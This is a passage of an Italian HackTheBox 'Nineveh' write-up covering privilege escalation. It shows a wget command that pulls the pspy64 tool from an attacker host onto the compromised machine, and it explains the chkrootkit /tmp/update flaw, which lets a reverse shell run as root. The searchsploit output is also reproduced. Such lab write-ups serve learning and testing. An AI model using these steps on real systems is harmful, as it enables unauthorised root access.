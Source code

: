 Nella nostra scansione nmap, la porta 22 non è stata segnalata come aperta, tuttavia, lo script LinEnum la segnala come in ascolto su localhost. Non sono sicuro di cosa fare con questa informazione, ma la terrò in mente nel caso in cui non trovassi altro modo per aumentare i privilegi.
Quindi, proviamo con pspy.

```bash
www-data@nineveh:/tmp$ wget http://10.10.14.34/pspy64
--2023-06-23 04:23:16--  http://10.10.14.34/pspy64
Connecting to 10.10.14.34:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.96M  1.05MB/s    in 2.8s    

2023-06-23 04:23:18 (1.05 MB/s) - 'pspy64' saved [3104768/3104768]

www-data@nineveh:/tmp$ chmod +x pspy64 

```

e lo eseguiamo, analizzando l'output vediamo questo cronjob

```bash
2023/06/23 04:27:04 CMD: UID=0     PID=5544   | /bin/sh /usr/bin/chkrootkit 
2023/06/23 04:27:04 CMD: UID=0     PID=5546   | /bin/sh /usr/bin/chkrootkit 
```

Vediamo che ogni minuto circa viene eseguito il chkrootkit. Non l'avevo mai visto prima su una macchina, quindi l'ho cercato su Google e ho scoperto che si tratta di un programma destinato ad aiutare gli amministratori di sistema a controllare il loro sistema alla ricerca di rootkit noti. Successivamente, ho cercato su Google "escalation dei privilegi di chkrootkit" e sono arrivato a questo [exploit](https://www.exploit-db.com/exploits/33899).
Esiste una vulnerabilità di escalation dei privilegi con le versioni precedenti di questo software che eseguirà qualsiasi file eseguibile denominato /tmp/update come root. Pertanto, tutto ciò che dobbiamo fare è creare un file di "update" che contenga una shell inversa e attendere che l'attività pianificata ci fornisca una shell con privilegi di root.
Per farlo, andiamo alla directory /tmp e creiamo il file update. Nel file di `update` aggiungimo il seguente codice.

Possiamo anche cercare con searchsploit

```bash

┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# searchsploit  chkrootkit  
---------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit) | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation| linux/local/33899.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
Papers: No Results

```
